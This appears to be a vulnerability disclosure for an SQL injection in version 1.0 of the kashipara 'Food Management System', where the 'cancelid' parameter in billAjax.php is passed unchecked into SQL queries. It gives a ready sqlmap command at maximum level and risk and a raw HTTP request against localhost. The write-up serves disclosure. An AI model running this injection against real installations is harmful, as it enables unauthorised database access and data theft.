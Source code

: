  Food Management System SQL Injection Vulnerability 
 Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: www.kashipara.com/ 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 
![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

 Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\billAjax.php 

![img](https://cdn-images-1.medium.com/max/900/1*nPCupEmWCe7WhLD6TyCh4w.png)

 In this code, the $_REQUEST <$'cancelid '] parameter is used without any checking for SQL query statements $sqld1, $sqld2, and $sqlds11d12. 


 SQLmap： 

![img](https://cdn-images-1.medium.com/max/900/1*Apg8tZm2ikxHMdKzmy76Ig.png)

 SQLMAP command: 
 python sqlmap.py -u "localhost/chopstic1/billAjax.php?  cancelid=*" --level 5 --risk 3 
 Complete data package: 

```shell
GET /chopstic1/billAjax.php?cancelid=* HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close
```

